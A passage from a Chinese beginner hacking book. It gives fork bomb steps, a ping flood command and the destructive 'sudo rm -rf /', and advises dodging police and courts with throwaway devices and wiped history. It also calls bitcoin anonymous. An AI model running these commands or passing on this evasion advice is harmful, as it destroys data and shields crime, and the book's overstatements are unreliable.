命名源自古代的“特洛伊木马”，特洛伊木马是伪装成有用程序的坏软件。如果你曾经从互联网上下载程序而导致感染，那么你就中中了特洛伊木马。特洛伊木马通常捆绑在软件安装中，并与真正有用的程序一起复制。

#### 恶意软件

恶意软件是恶意程序的通用泛义术语，例如脚本、勒索软件以及上述所有程序。

#### 勒索软件

勒索软件是一种特定的恶意软件，它能巧妙地加密用户文件并要求支付解密密码。这种方式非常有效，因为要求数据始终可用的大型企业（医院、学校等）通常必须支付费用以继续业务。

#### 僵尸网络

蠕虫和其他类型的恶意软件有时会出于更大的目的感染计算机。僵尸网络是相互连接的受感染计算机网络，响应黑客的。受感染的“僵尸”可以被成组运行并汇集资源进行大规模的 DDoS 攻击，从而关闭公司和政府网站。某些僵尸网络组使用庞大的组合计算力暴力破解密码并解密数据。成为恶意僵尸网络的一部分永远无无益处。

#### 代理

为黑客和关注隐私的个人存在有用的工具。代理是将你的互联网内容路由到另一个地方的服务，以隐藏你的真实位置。例如，如果你通过位于瑞典的代理在线发布帖子，该帖子看起来就像最初是在瑞典创建的，而不是你实际居住的地方。黑客使用代理来隐藏他们的真实位置以防被发现。关注安全的人使用代理来躲避侵入性的监控。

#### VPN

虚拟专用网络（VPN）是一种“隧道”互联网流量的服务/程序。它的工作方式与代理非常相似，但除了加密数据包外，还可以隐藏各种其他信息。VPN 通常由不在办公室工作的业务员工使用。员工可以连接到他们的 VPN，他们将通过公司服务器隧道，并像坐在办公室办公椅上一样访问数据。黑客可以使用 VPN 来隐藏位置和数据信息，或创建到其目标的直接链接。到办公室服务器的 VPN 链接无疑比普通的互联网连接提供更多权限。

## 渗透测试


渗透测试（或 pen testing）是寻找安全漏洞的良性行为，黑客可能会利用这些漏洞为其有利。安全专家可以将渗透测试作为一份全职工作，并获得公司付费以在“坏人”之前发现漏洞。

## 漏洞

程序或网络内部可用于获取额外访问的利用程序或问题被称为漏洞（漏洞）。热门索尼视频游戏机 Playstation 3 中的一个漏洞让黑客能够免费安装盗版游戏，而不是付费。发现利用程序或漏洞是黑客的另一个大目标。

## Bug

程序内部产生意外结果的故障或问题。Bug 有时可以用来制造漏洞，因此黑客总是检查程序中的 Bug，而安全专家总是试图修复 Bug。

## 互联网

互联网是一个可以相互通信的连接计算机网络。通过与网络服务器通信可以使用网站，并在连接到游戏服务器后可以玩游戏。最终，取决于计算机的安全设置，互联网上的每台计算机都可以与任何其他计算机通信。

### 内网

相比之下，内网是由少数几台计算机组成的本地网络。公司可能使用内网安全地共享文件，而无需通过可能被拦截的整个互联网。VPN 通常用于连接到私有内网。

### IP

`IP`（互联网协议）地址是分配给网络上设备的数字标识符。互联网上的每台计算机都有一个公共 `IP`，即可以地理定位计算机的 `IP`。我们使用 `IP` 地址连接网站，但不是输入类似 `192.168.1.0` 的数字，而是输入域名（`google.com`），它通过 DNS 服务器翻译成数字 `IP`。

你可以在 Windows 命令提示符中输入 `ipconfig` 来获取你的本地/私有 `IP` 地址。某些网站（例如 `http://whatismyipaddress.com/`）可以显示你的公共 `IP` 地址。



刚才有很多词汇，对吧？休息一下吧！如果你喜欢阅读的内容并喜欢你获得的信息，我恳请你为我的书留一个诚恳的评价！如果你准备好了，请继续进入第 4 章。

## 第 4 章：入门黑客

首先，本书假设有志的黑客使用的是基于 Windows 的操作系统。Windows 上最优秀的工具之一是命令提示符，可以通过以下步骤访问：

1. 按住并保持 Windows 键和 “r” 键。这将弹出“运行”窗口。
2. 在“打开：”字段中，输入 `cmd` 并点击确定。
3. 命令提示符将作为一个带有白色文字的黑色终端打开。



命令提示符在审美和功能上类似于旧的 DOS 提示符或 Linux 终端。从本质上说，计算机可以通过命令提示符进行交互，而无需使用鼠标，这就是旧电脑的工作方式！对于黑客来说，这是一个必用的工具，因为有些命令和黑客方法只能通过在提示符中输入命令来实现。

`C:\Users\name\>` 是你当前所在的目录（文件夹）。你可以输入 `dir` 并按回车键查看目录内容。要更改文件夹，你需要输入 `cd foldername`。你也可以通过输入 `cd ..` 返回上一级。可以通过输入 `help` 查看更多命令。强烈建议有志黑客学习并掌握命令行，因为 `cmd` 是黑客的好朋友！

黑客（Hacking）是一个广泛的术语，描述了实现获取系统访问最终目标的各种方法。虽然有些黑客是为了好玩，另一些人是为了个人利益。无论如何实现，都必须通过各种技术方法完成，这些方法将在下描述。某些方法可能附有演示；你可以尽管跟随开始你的黑客生涯。

## 社会工程

社会工程是一种实际上并不涉及技术技能的黑客技术。在这种方法中，攻击者通过“社交”手段获取信息。

这里有一个示例。一个聪明的黑客发现某公司的某员工电脑坏了，并将其送到 IT 部门进行维修。黑客冒充一名新的 IT 成员给员工打电话，说维修快要完成了，但需要她的密码来继续。如果伪装成功，员工就会免费交出密码，黑客就成功了。由于人类的信任本质以及黑客通过经验获得的狡猾技巧，社会工程学非常流行。

## 网络钓鱼

网络钓鱼是一种涉及中等技术技能的社会工程类型。网络钓鱼源于钓鱼，是指通过电子邮件“诱骗”员工提供信息的行为。网络钓鱼也可以利用恶意软件来实现目标。下面是另一个故事。

商务办公室的一位会计完成了本周的工资发放，他们检查邮箱时发现了一封未读邮件。主题为：“紧急：工资发放被拒绝”引起了会计的注意。邮件来自 `payroll@adponline1.com`，会计从未见过，但话说回来，这个问题以前从未发生过，所以他们不知道预期。正文写道：“由于授权错误，您的打卡记录未正确传输。请回复密码以确认。”时钟显示 4:57，大家都准备回家，所以会计急于结束一天的工作。员工回复了信息和密码并回家，并没有意识到自己刚刚把密码给了一个黑客，而该黑客现在可以访问工资信息了。

网络钓鱼非常有效，通常是数据泄露的初始原因。这一事实是因为网络钓鱼邮件具有普遍的可信度，它们通常使用个人信息来让自己看起来真实。此外，大多数员工并不精通计算机，无法理解虚假密码请求与真实请求之间的区别。

最近，许多公司开始为员工的安全培训计划分配资金。这些课程专门教授如何防范网络钓鱼尝试。尽管如此，最聪明的黑客总是能够通过欺骗和社会工程学手段进入敏感信息。

## DoS

拒绝服务（Denial of Service）是一种攻击方式，通过向网站或服务器发送多个网络请求来使其过载并崩溃。DoS 攻击可以击垮未准备好同时处理大量请求的基础设施。一些黑客使用 DoS 攻击作为掩护或额外的干扰，以掩盖他们正在进行的实际攻击。黑客可以通过 Windows 命令提示符发送单个网络请求，如下所示：



在这里，向 google.com 发送了几个字节的数据，但你可以像这样修改命令来指定数量：

```
ping –f –l 65500 websitename
```

`-f` 确保数据包不分片或破碎，`-l` 允许你输入 32-65500 之间的数据包大小，从而增加数据包的大小和它消耗的资源数量。

当然，普通的黑客永远无法通过命令提示符上的 ping 请求攻倒像 google.com 这样的网站，因此上述内容仅供教育目的——真实的 DoS 攻击涉及使用强大的计算机向网络发送请求，直到服务器慢到爬行或完全崩溃。

反黑程序通过阻止该 IP 发起进一步请求来应对来自单一源头的大量流量。他们还可以观察淹没服务器的流量类型，并拦截看起来像 DoS 垃圾数据的包类型。

## DDoS

危险得多，DDoS（分布式拒绝服务）攻击比简单的拒绝服务攻击要强指数级增长。DDoS 攻击涉及同时通过多个 DoS 攻击攻击服务器，每个攻击都源于不同的位置。这些攻击更难被屏蔽，因为原始 IP 地址不断变化，或者数量太多而无法有效屏蔽。

DDoS 攻击的破坏性一个例子可以从 2014 年 12 月的索尼攻击中看出。索尼最新的游戏主机（当时）刚上市，孩子们在圣诞节当天打开它们，急于开始玩耍。然而，在连接互联网后，失望的孩子们收到了错误信息，显示索尼网络已宕机。黑客组织 Lizard Squad 一直对索尼进行 DDoS 攻击，并为了好玩让他们的游戏服务器过载。此外，数百万新玩家也试图访问服务来玩游戏并询问停机时间，这进一步淹没了基础设施。这给索尼带来了问题，因为他们不能屏蔽所有请求，因为其中一些是合法的客户。当 DDoS 停止后，问题最终得到解决，但这种情况证明了协调的网络攻击是多么容易瘫痪大型服务器。

安全专业人员有几种工具可以防止 DDoS 攻击的发生。负载均衡硬件可以将大量请求分散到各个服务器上，以免导致单台机器崩溃。他们还可以阻止攻击的主源，即 ping 和 DNS 请求。某些公司（如 CloudFlare）提供网络软件，可以主动识别并紧急拦截任何其认为是 DDoS 尝试的流量。

执行 DDoS 攻击相对容易。有一种名为 LOIC（低轨道离子炮）的开源软件，允许人们方便地进行 DDoS。该软件如下：


这个相当幽默、稚气的 GUI 隐藏了强大的工具，让毫无技术的初级黑客在与其他协作时也能具备 DDoS 能力。

最熟练的攻击者使用僵尸网络来提高效率。一个编写良好的蠕虫可以感染具有高速网络的数据中心或大学，然后这些僵尸电脑就会在黑客的指挥下协同攻击一个单一目标。

## 进程炸弹 (Fork Bomb)

进程炸弹是一种特定的恶意代码，其原理基本上类似于离线 DDoS。然而，炸弹并不是阻塞网络管道，而是阻塞处理管道。基本上，进程炸弹是一个递归运行自身的进程——即该进程不断复制自己，直到计算机的处理器无法跟上。如果黑客能够访问系统并运行代码，进程炸弹是非常致命的。实际上，炸弹是最容易编写程序之一。在命令提示符中输入 `start` 会打开另一个命令提示符。这可以通过下所示实现自动化。

1. 打开记事本。（`Windows+R`，`notepad`，`确定`）
2. 第一行且唯一行输入 `start forkbomb.bat`。
3. 打开“另存为”对话框。
4. 将文件类型切换为“所有文件”。
5. 命名为 `forkbomb.bat` 并保存文件。



我们刚刚做的是使用命令提示符相同的编程语言创建了一个批文件。运行此文件（通过右键点击图标并点击“运行”）将启动进程炸弹，它将不断反复启动自己，直到计算机无法处理这种资源压力。**警告**：除非你准备好面对后果，否则不要运行此文件！

## 破解 (Cracking)

破解是指破解软件/应用程序或密码。破解程序可以禁用付费软件上的数字权利管理（DRM，也称为复制保护），以便在不支付全价的情况下使用软件完整版。熟练的黑客通过代码逆向工程或寻找允许他们运行自定义代码的漏洞来实现这一点。加密也可以被破解，导致受保护的数据泄露，因为攻击者知道如何反转乱码。密码破解可以通过暴力破解和字典攻击来实现。

### 暴力破解 (Brute Force)

暴力破解尝试通过尝试每种可能的字母和数字组合来猜测密码。在 DOS 时代，这并不困难，因为密码最多只有 8 个字符。暴力破解攻击是漫长而辛苦的，但在时间足够的情况下，可以在强大的计算机上成功。在章节后面的部分，我们将讨论 Kali Linux 及其作为安全测试/黑客工具的使用。Hydra 是一个尝试暴力破解密码的应用程序。

### 字典攻击 (Dictionary Attack)

字典攻击稍微复杂一些。它们与暴力破解的相似之处在于都会尝试大量的密码组合，但不同在于字典攻击使用来自中的单词数据库进行操作。这种方法对于猜测简单的密码（例如单单词密码）效果很好。辅助字典攻击的应用程序将从顶部开始遍历大型单词数据库，并尝试对每个单词进行细微变体以查看登录是否成功。最聪明的字典攻击会将用户的特定单词添加到数据库中，例如姓名、宠物、工作、生日等……大多数人使用个人信息作为密码，将这些信息添加到字典攻击中可以提高有效性。

## 在 Windows 上控制同事屏幕

某些版本的 Windows 内置了“远程桌面”应用程序，旨在让 IT 人员快速远程连接到远处的计算机并进行控制和维护。

远程桌面可以（当然）被利用，这正是我们要做的。本教程是为同一网络上的两台计算机设计的，但聪明的用户可能会将其扩展到整个互联网。

首先，需要在两台计算机上启用远程桌面。通过控制面板，点击“系统”，然后点击“远程设置”。确保勾选了“允许远程协助连接到此电脑”。应用设置。然后，你需要同事的 IP 地址；你可能记得这可以通过命令提示符中输入 `ipconfig` 并复制列出的“IPv4 地址”。



现在启动远程控制程序，等待时机给朋友一个惊喜，并在你的计算机上启动“远程桌面连接”应用程序（你可以在开始菜单中搜索它）。输入朋友的 IP 地址，看着当你移动他们的鼠标时他们惊讶的反应！

从技术上讲这并不是“黑客攻击”，但黑客可以使用远程桌面应用程序来监视目标。例如，一个毫无防备的用户在检查银行账户信息时，黑客正在暗中观察。这让黑客充分了解密码和个人信息，所以如果你的计算机上启用了远程桌面应用，请小心。

## 使用其他操作系统

由于多种原因，替代操作系统对黑客来说是非常价值的。在不覆盖当前系统的情况下尝试另一个系统的简单方法是将操作系统安装到可启动的 USB 驱动器上。我们将通过在 USB 驱动器上安装 Kali Linux（前称为 Backtrack Linux）来演示这一过程。

1. 访问 [`www.kali.org`](http://www.kali.org) 下载 Kali Linux。你需要下载与你的处理器兼容的版本（32 位、64 位或 ARM）。如果不确定，请下载 32 位处理器的 `.iso` 文件。
2. 从 [`rufus.ie`](http://rufus.ie) 下载 Rufus，这是一个免费的 USB 写入软件。
3. 插入任何足够空间存储镜像的 USB 盘。取决于你阅读时镜像的大小，你可能需要 8GB 或更多空间。
4. **警告**：确保 USB 盘不包含任何贵重文件——它们将被删除！将驱动器上的任何重要文件备份，否则你可能会丢失数据。
5. 启动 Rufus，在“设备”选项卡中选择你的 USB 盘，并保持其他设置为默认值。参考下图我使用的设置。
6. 在勾选的“使用...创建可启动磁盘”框旁边，从下拉菜单选择“ISO 镜像”。然后点击旁边的框并定位到 Kali `.iso` 文件。
7. 三倍检查信息是否正确，并且你的 USB 盘没有任何文件。
8. 点击“开始”。



Rufus 需要一些时间来完成。一旦 Rufus 显示“完成”，它就已经将 Kali Linux 安装到 USB 上并使其变得可启动。完全完成后，你就可以关闭程序了。

在过程的下部分，你需要完全关闭计算机。我们需要访问计算机的 BIOS。继续阅读下一节，流程将继续。

## BIOS/UEFI

计算机的 BIOS（基本输入输出系统）或 UEFI（统一可扩展固件接口）是计算机首次上电时运行的固件部分。传统上默认使用 BIOS，但 UEFI 提供了增强的功能，并正在缓慢地取代计算机上的 BIOS。这种启动固件执行初始化、检查硬件，并为用户在“裸机”层面上与计算机交互提供选项。在计算机首次启动时，可以通过按下键盘上的按键访问 BIOS/UEFI 界面。

继续演示从 USB 闪盘启动包含操作系统，用户现在需要将 USB 驱动器设为在硬盘之前启动。每种主板制造商都会使用自己的自定义界面，因此此书无法解释每个主板型号的特定步骤。基本上，目标是找到“启动顺序”，即计算机检查可启动操作系统的顺序。在正常情况下，计算机会从内部硬盘启动，这很可能就是你现在阅读此内容时所使用的操作系统。我们需要确保计算机在检查内部设备之前先检查 USB 驱动器是否有操作系统。在下面的图像中，首先检查硬盘，然后检查 CD-ROM 驱动器。第三是检查任何可移动设备，但这台特定的计算机可能在找到主操作系统并启动之前只检查到内部硬盘了。要启动 USB 闪盘上的镜像，请将“可移动设备”（Removable Devices）移动到列表顶端。最后，确保 USB 已插入，保存 BIOS/UEFI 更改并重启。计算机应该开始加载 Kali Linux。


启动过程中的任何问题都会给出错误信息，用户可以在互联网上搜索以进行故障排除，但更有可能计算机会成功进入 Kali Linux。用户现在可以使用一个全新的操作系统了！

选择 Kali Linux 是因为它默认提供了许多工具。由于包含的软件，Kali 经常是黑客的首选操作系统。黑客和安全专业人员都选择 Kali，因此鼓励有志的人士对该操作系统进行实验。

## 使用其他操作系统窃取数据

这里有一个有趣的点：通过可启动的 Kali USB 闪盘，你还可以加载你的主内部硬盘并查看其内容。这意味着你可以在不进入 Windows 的情况下访问磁盘上的文件。尝试打开你的内部硬盘并查看你的个人文件。有时，发现在不真正开启 Windows 的情况下查看个人数据是如此简单，这是令人震惊的。诚然，访问受保护的数据存在一些限制，但这种技术可以用于从不属于黑客的计算机中恢复秘密信息。记住，如果计算机在物理上是可以访问的，黑客就拥有巨大的优势。他们始终可以加载自己喜的可启动操作系统，复制硬盘中的所有数据，并在从不登录 Windows 的情况下离开。即使是受密码保护或加密的数据也容易被复制。由于攻击者拥有锁定数据的副本，他们可以花费无限的时间尝试破解密码。

我们将在下方查看 Kali Linux 中存在的其他一些黑客工具。

## 端口扫描

了解目标基础设施会使黑客攻击变得更容易。映射网络最好的方法之一是通过端口扫描。扫描端口可以揭示网络中的开放点。某些端口的开放可以为黑客提供独特的漏洞利用，因此黑客通常在决定切入点之前进行端口扫描。在 Kali Linux 上，执行此操作的最佳工具是 `nmap`。通过将 Kali Linux 加载到连接网络的计算机上并运行终端（Linux 版本的命令提示符，通过 `ctrl+alt+T` 打开），黑客可以输入此命令扫描计算机的开放端口：

```
nmap -sV IPADDRESS -A –v
```

终端将带有指定的参数运行 `nmap` 程序，并开始扫描指定 IP 地址的开放端口。

## 封包捕获

通过网络的流量以称为“数据包”的小数据片段发送。每个数据包包含各种位信息，例如它来自哪里、去向哪里以及正在的任何信息。不安全的网络可能会以明文（未加密文本）发送重要信息。这样发送的数据很容易被截获，这是通过封包捕获实现的。Kali Linux 内置了一个可以实现此功能的应用程序——`Wireshark`。对于那些尚未看到 Kali 优势的人，Windows 上也有可用版本。封包捕获是通过启动应用程序、将网卡模式更改为“混杂模式”（promiscuous）并开始捕获数据包完成的。

丰富的黑客可以查看捕获的数据包并研究它们获取信息。如果是以明文发送，明文将可见，但加密的文本将被掩盖。

## SQL 注入


SQL 是一种主要用于 Web 服务器的编程语言；典型的代码示例所示。SQL 注入通过对黑客编写的代码进行精巧的“注入”，利用网站登录脚本中糟糕的编码来实施攻击。这是一个很难解释的过程，但可以通过 YouTube 视频和网站演示查看（[`www.codebashing.com/sql_demo`](http://www.codebashing.com/sql_demo)）。



## 破坏 Linux 系统

Linux 操作系统通常比其 Windows 对应品更安全，但类 Unix 内核背后的设计哲学是超级用户（管理员）拥有完全控制权且无需质问。Windows 管理员通常也拥有完全控制权，但操作系统防止用户意外损坏系统！一种非常有恶意的攻击涉及利用超级用户的权限删除整个 Linux 操作系统。

在 Kali Linux 中尝试终端时，你可能会注意到某些命令需要以 `sudo` 作为前缀。`sudo` 调用超级用户权限，并允许在输入 root 密码后运行更改系统的命令。由于 Linux 内核赋予超级用户完全控制权，输入以下命令将即使在系统运行时也会完全删除操作系统。

```
sudo rm –rf /
```

在任何情况下，都不应在没有许可的情况下运行此命令。此命令将破坏操作系统！即使在对自己测试此命令，也要做好面对后果的准备。如果发生任何故障，你不能怪罪本指南。该命令的构造如下：

`sudo` 调用超级用户并赋予完全控制权，`rm` 表示删除（remove），`-rf` 告诉 `rm` 删除嵌套文件夹和文件，而 `/` 从第一个文件夹开始删除过程。因此，整个系统被删除了。如果计算机没有立即崩溃，它在关机后也无法启动。

## 第 5 章：建立技能与自我保护

## 编程

学习编程是区分“脚本小子”与真正的精英黑客的标准。任何有志的黑客都应该花时间学习各种语言编程的基础。一种很好的初学者语言是经典的 `C++`。`C++` 基于原始的 `C`，是一种基础高级编程语言，对于初学者来说既强大又简单。有很多关于学习这种语言的书，推荐新手阅读。

编程是基本技能，因为大多数漏洞利用涉及使用编程代码来更改或绕过系统。病毒和其他恶意软件也是用代码编写的，合格黑客程序员可以编写出令人惊叹的应用程序，例如勒索软件。

## 精通终端和命令提示符

终端是一个可以逐行解析编程代码的应用程序。技术黑客已经精通在命令提示符和终端中移动。如前所述，在命令提示符中输入 `help` 可以提供命令列表。在 Linux 的 `bash` 终端中，用户可以输入 `man`（manual）来学习命令。手册页很且非常详细。

## 路由器和 WEP

了解 Wi-Fi 路由器/访问点使用的密码保护措施可能会帮助黑客破解密码。在 Wi-Fi 早期，`WEP` 被用于密码安全。`WEP` 是一种缺乏复杂性的算法，在 2004 年被 `WPA` 取代。然而，许多路由器仍无意中或默认使用 `WEP`。这为黑客提供了一个通用的漏洞，因为 `WEP` 密钥可以在短时间内被破解。要在 `Kali Linux` 上实现这一操作，黑客必须在位于 `WEP` 访问点范围内的带有无线功能的笔记本电脑上启动操作系统。然后，他们会打开终端并使用 `airmon-ng` 应用。

由于复杂性增加，破解 `WPA` 密钥需要花费更多时间，但 `WEP` 密钥是黑客练习其新兴技能的简单目标。

## 作为黑客的自我保护

学习本书中提到的技能的好奇黑客必须留心保护自己。任何严肃的渗透尝试都应该在个人已获得许可进行实验和渗透测试的网络上进行。根据读者所在州法律或联邦法律，在没有明确许可的情况下执行书中的演示，个人可能会面临各种警方行动；精明的黑客早已对此保持警惕。

抛开这一切，对于渴望成为黑客的人来说，学习各种让自己不被识别的方法是有益的。此外，许多试图揭露其工作公司非法活动的黑客行动主义（吹哨者）正受到不断的监控。只有通过我们下面讨论的某些主题，这些人才能免受雇主施加的压迫性本质。通用安全不仅是一种良好的做法，安全还可以保护那些试图保护他人的人。对于黑客来说，安全保障可以防止“反黑”并保持领域的进步。

## 密码安全

普通电脑用户与安全专家之间最大的区别在于密码的复杂性。普通员工可能会使用 `fido82` 作为其身份验证密钥，而安全专家可能会使用更难猜的内容，如 `Fsdf3@3`。精明的黑客在对密码进行字典攻击时会利用这一事实。此外，某些密码和基础设施受保护极好，任何初学者都无法破解。随着技能的提高，黑客变得越来越明智。像智者一样的黑客似乎可以凭空产生新的漏洞，而且可以肯定，只要练习足够，任何人都能达到这一水平。

通过自我反省，攻击者和黑客行动主义者必须符合安全专家所遵循的标准。强个人密码几乎可以保证黑客不会被“反黑”。正如我们在接下来的几节中读到的，大多数黑客受到迫害是因为他们的设备被没收，并很容易被反破解以揭露非法活动。复杂的密码能够抵御联邦政府强大的超级计算机。

还建议永远不要将密码写下来或将其保存到某个文件中。最好的密码是随机的、记忆的且保密的。

## 密码泄露

此外，安全专家很少重复密码。令人震惊的是，许多用户确实这样做——普通人在银行、社交媒体、论坛和在线购物时使用同一个密码！2015 年的 Ashley Madison 泄露导致了电子邮件地址的公开；2013 年的 Tumblr 泄露导致密码在“暗网”（黑市互联网）上出售。由于用户很少更改密码，精明的黑客可以搜索这些数据库并定位用户信息。密码很可能保持不变，因此黑客轻而易举地获得了访问权限。密码泄露很常见，在互联网上也很容易，只需访问 `https://haveibeenpwned.com/` 即可检查密码是否被泄露！结论是，这些泄露不会伤害经常更改密码并为每个账户保持不同密码的用户。

## 加密

使用专业版/企业版的 Windows 用户默认可以使用加密功能。否则，想要加密文件的用户将不得不下载第三方应用程序，如 `TrueCrypt` (`http://www.truecrypt.org`)。对于希望保护任何数据的用户来说，加密是至关重要的。无论是糟糕的诗、商业秘密还是成功的黑客日志，如果你想保证绝对没有人能读取它，文件就需要被加密。因此，爱管的室友在没有你明确许可的情况下无法访问文件内容，执法人员在没收电脑时，遇到解密密码提示将步入死胡同。

在 Windows 上，完成该过程是：右键点击文件，访问属性，点击“属性”部分中的高级属性按钮，然后勾选“加密内容以便保护数据”复选框。下方可见截图：



之前提供的关于密码的所有建议在选择解密密钥时都适用。记住，如果一个新手黑客都能破解加密，那么政府的集体智慧力量也可能破解密钥。

# 历史

尽管显而易见，但没有多少初学者意识到电脑历史会损害行动。对于外行来说，浏览器历史是一份存储在计算机上的访问过的网站日志。此列表通常没有加密，因此，包含近期搜索“如何黑客”的泄露列表在提交法庭时可能成为定罪证据。大多数电脑用户出于隐私原因会完全禁用浏览器历史，而且过程并不困难。例如，在 `Firefox` 中，可以在“选项”的“隐私”标签下找到该选项。禁用历史是有用的，但可能需要清除之前的历史。再次，方法各异，但通常过程是访问最近查看的网站列表，并通过按钮或命令将其清除。

历史并不总是仅存储在本地。某些 ISP（互联网服务提供商，为用户提供接入服务的组织）保留他们自己的互联网历史日志。警察传票将要求他们交出这些历史，这基本上使得删除互联网历史时所付出的努力无效。然而，有方法可以绕过这一事实，将在后续章节中详细说明。

## 使用代理

ISP 知道互联网历史的原因与黑客拦截数据包查看信息有关。普通的、未加密的网页流量在外观上是可以预测的，因此可以被捕获。互联网服务提供商有时出于习惯或法律保留这些信息，因此消除这种干扰的唯一方法是将数据包伪装成完全不同的东西。代理允许用户这样做。普通数据包将清晰标记源地址和目的地址，而通过代理发送的数据包不会显示初始发送者，只有中继数据包的代理机器。在 ISP 端，看起来计算机正在与一个地址通信，而它们实际上在与另一个地址通信。当法院向 ISP 调取信息时，源（黑客）和最终目的地（目标）之间没有联系。

代理可以通过浏览器（`hide.me`、`whoer.net`、`proxysite.com` 等）或作为第三方软件使用。代理最著名的用法是在校园网络中以规避内容过滤——如果你看起来在连接到完全不同的东西，没有人能阻止你的游戏网站。

然而，代理确实有其缺点。权力足够的执法机构可以从代理服务器检索记录，并匹配你连接的“时间戳”，以凑出你的上网历史。使用多个代理只是推迟了不可避免的结果，因为如果侦探攻破了其中代理服务器，他们就可以从一个代理追踪到另一个代理，直到到达源地址。

## 使用 VPN

在书的前面的部分，VPN 被解释为通过网络对数据进行“隧道传输”。这种服务通常供员工用于居家办公，但黑客可以利用 VPN 作为某种增强型代理。典型的 VPN 会以这种方式修改数据包，将其加密并变得不可读。这些数据包看起来不像网络活动，因为它们是通过完全不同的端口发送的。这为数据包增加了复杂度，符合其安全用途的需求。例如，在公共开放网络上查看银行账单是危险的，因为数据包可以被黑客轻易拦截和解码。然而，使用 VPN 可以隐藏数据，并允许不受加密风险的正常无限制使用。

熟练的黑客会利用 VPN 的类代理特性来隐藏他们的真实位置。通常情况下，由于增加了模糊性和确定源点的难度，这些服务器对于政府机构来说也具有中等的安全性。网络海盗非常喜欢虚拟私人网络，因为它们可以将他们下载的非法数据伪装成普通的受保护数据。

VPN 通常通过第三方软件创建。`VPN` 程序允许任何人连接到 VPN 服务器，但他们很可能需要用户名和密码。组织通常拥有仅作为公司内网中继的专用 VPN，这些中继需要公司提供的密码。想要使用 VPN 的个人可能需要付费才能到 VPN 服务器，但黑客认为购买 VPN 是非常值得的。

## Tor 项目

对于寻求最高水平保护的黑客和安全专家，Tor 项目 (`http://torproject.org`) 提供了一个解决方案。该公司提供了一个名为 `Tor` 的免费软件，它作为一个超级 VPN/代理。Tor 将互联网流量跨越数千个中继进行跳转（每个中继都有大量的加密），以确保数据包的目标地和来源不明确。该软件可以被任何想要隐藏在线活动的个人使用，并且已被证明相当有效。

## 浏览器指纹

浏览器指纹是一个高级话题，是一种复杂的防黑客技术，浏览器中包含的特定唯一信息（语言包、插件、操作系统版本等）会被网站保留并用于识别用户。大多数黑客使用带有广告拦截插件、IP 隐藏软件和其他定义特征的独特配置。其讽刺之处，为了保护自己而获得的唯一性反而通过设备指纹变成了一个识别因素。

基本上，在互联网上保持隐藏的最佳方法是“融入大众”，这样独特的配置就无法追溯到黑客。由于这是一个非常先进且新兴的话题，现在要说侦探和网络调查员是否正在通过这种方法抓住罪犯还为过早。可以通过在线测试器查看浏览器指纹，例如 `https://amiunique.org`。

## 开源 vs 专有

在本书中，某些软件被称为“免费”。该软件的实际正确术语是 `FOSS`（自由开源软件）。`FOSS` 程序不仅在金钱上是免费的，而且其代码是透明的。开源指的是程序代码在任何时候都是可见，而专有软件的代码是永远不可见的。这一事实很重要；如果代码不可见，就无法确切知道程序在做什么，或者它在向谁发送数据。专有软件，例如谷歌的网页浏览器 `Chrome`，无疑会将数据传回谷歌。与之形成鲜明对比的是 Mozilla 的 `FOSS` `Firefox` 网页浏览器。`Firefox` 具有透明代码，因此程序员在任何时候都可以阅读源码，并确定 `Firefox` 是否会将数据传回。

黑客和具有安全意识的人倾向于选择 `FOSS`，因为其本质更安全。毕竟，没有人确切知道某些可疑专有程序内部到底在发生什么。闭源软件中可能存在为政府留的后门，这会暴露善意的黑客或内部举报人，因此最好的安全性始终是通过通过维护良好的自由开源软件来实现的。

## 丢弃设备（Throwaways）

举报人和高级泄密者（参见：爱华·斯诺登）需要极高的隐私，完全无法将行动关联到个人。许多专业人士决定通过丢弃设备进行他们的私人活动。

丢弃设备是指仅用于私人活动的计算机。它通常用现金购买的，不提及买者的姓名，从不用于登录与买者相关的账户，并在咖啡馆等公共场所使用。如果使用得当，不应该有任何指向买者的证据。

用现金购买丢弃设备非常重要，因为带有姓名的买销售发据是不可否认的联系。正由于这些原因，黑客很少甚至从不使用信用卡进行购买。现金几乎无法追踪，但监控摄像头仍然可以识别出商店里的脸。购买二手设备或从庭院销售购买可以消除组织可能拥有的监控能力。

登录个人账户会在设备上留下痕迹，使用个人网络连接将追溯到 ISP 注册给你的 `IP`。咖啡馆、麦当劳、图书馆和网吧通常提供无需注册的免费互联网——这些地方是匿名的首选地点。

## 比特币

如果在网上必须购买东西，`bitcoin` 是一种匿名的方式。`bitcoin` 是一种不关联的虚拟货币。过去的犯罪分子使用 `bitcoin` 在“暗网”购买非法物质，这证明了 `bitcoin` 有多么匿名。

## 结论

